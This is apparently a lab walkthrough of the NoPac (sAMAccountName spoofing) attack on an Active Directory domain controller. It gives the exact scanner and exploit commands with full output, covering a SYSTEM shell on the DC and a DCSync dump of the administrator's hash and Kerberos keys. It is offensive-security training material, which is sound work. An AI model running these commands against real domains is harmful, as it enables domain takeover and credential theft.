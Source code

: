 # NoPac (SamAccountName Spoofing)
##### NoPac uses many tools in Impacket to communicate with, upload a payload, and issue commands from the attack host to the target DC. Before attempting to use the exploit, we should ensure Impacket is installed and the noPac exploit repo is cloned to our attack host if needed. We can use these commands to do so:
### Ensuring Impacket is Installed

```bash
Yashfren@htb[/htb]$ git clone https://github.com/SecureAuthCorp/impacket.git
```

```bash
Yashfren@htb[/htb]$ python setup.py install 
```
### Cloning the NoPac Exploit Repo

```bash
Yashfren@htb[/htb]$ git clone https://github.com/Ridter/noPac.git
```

###### Once Impacket is installed and we ensure the repo is cloned to our attack box, we can use the scripts in the NoPac directory to check if the system is vulnerable using a scanner (scanner.py) then use the exploit (noPac.py) to gain a shell as NT AUTHORITY/SYSTEM. We can use the scanner with a standard domain user account to attempt to obtain a TGT from the target Domain Controller. If successful, this indicates the system is, in fact, vulnerable. We'll also notice the ms-DS-MachineAccountQuota number is set to 10. In some environments, an astute sysadmin may set the ms-DS-MachineAccountQuota value to 0. If this is the case, the attack will fail because our user will not have the rights to add a new machine account. Setting this to 0 can prevent quite a few AD attacks.
### Scanning for NoPac

```bash
Yashfren@htb[/htb]$ sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                           
[*] Current ms-DS-MachineAccountQuota = 10
[*] Got TGT with PAC from 172.16.5.5. Ticket size 1484
[*] Got TGT from ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL. Ticket size 663
```
###### There are many different ways to use NoPac to further our access. One way is to obtain a shell with SYSTEM level privileges. We can do this by running noPac.py with the syntax below to impersonate the built-in administrator account and drop into a semi-interactive shell session on the target Domain Controller. This could be "noisy" or may be blocked by AV or EDR.
### Running NoPac & Getting a Shell

```bash
Yashfren@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                               
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] will try to impersonat administrator
[*] Adding Computer Account "WIN-LWJFQMAXRVN$"
[*] MachineAccount "WIN-LWJFQMAXRVN$" password = &A#x8X^5iLva
[*] Successfully added machine account WIN-LWJFQMAXRVN$ with password &A#x8X^5iLva.
[*] WIN-LWJFQMAXRVN$ object = CN=WIN-LWJFQMAXRVN,CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
[*] WIN-LWJFQMAXRVN$ sAMAccountName == ACADEMY-EA-DC01
[*] Saving ticket in ACADEMY-EA-DC01.ccache
[*] Resting the machine account to WIN-LWJFQMAXRVN$
[*] Restored WIN-LWJFQMAXRVN$ sAMAccountName to original value
[*] Using TGT from cache
[*] Impersonating administrator
[*] 	Requesting S4U2self
[*] Saving ticket in administrator.ccache
[*] Remove ccache of ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Rename ccache with target ...
[*] Attempting to del a computer with the name: WIN-LWJFQMAXRVN$
[-] Delete computer WIN-LWJFQMAXRVN$ Failed! Maybe the current user does not have permission.
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```
###### We will notice that a semi-interactive shell session is established with the target using smbexec.py. Keep in mind with smbexec shells we will need to use exact paths instead of navigating the directory structure using cd.
###### It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run. We can use ls to confirm.
### Confirming the Location of Saved Tickets

```bash
Yashfren@htb[/htb]$ ls

administrator_DC01.INLANEFREIGHT.local.ccache  noPac.py   requirements.txt  utils
README.md  scanner.py
```
###### We could then use the ccache file to perform a pass-the-ticket and perform further attacks such as DCSync. We can also use the tool with the -dump flag to perform a DCSync using secretsdump.py. This method would still create a ccache file on disk, which we would want to be aware of and clean up.
### Using noPac to DCSync the Built-in Administrator Account

```
Yashfren@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                                                    
[*] Current ms-DS-MachineAccountQuota = 10
[*] Selected Target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] will try to impersonat administrator
[*] Alreay have user administrator ticket for target ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Pls make sure your choice hostname and the -dc-ip are same machine !!
[*] Exploiting..
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
[*] Kerberos keys grabbed
inlanefreight.local\administrator:aes256-cts-hmac-sha1-96:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
inlanefreight.local\administrator:aes128-cts-hmac-sha1-96:95c30f88301f9fe14ef5a8103b32eb25
inlanefreight.local\administrator:des-cbc-md5:70add6e02f70321f
[*] Cleaning up...
```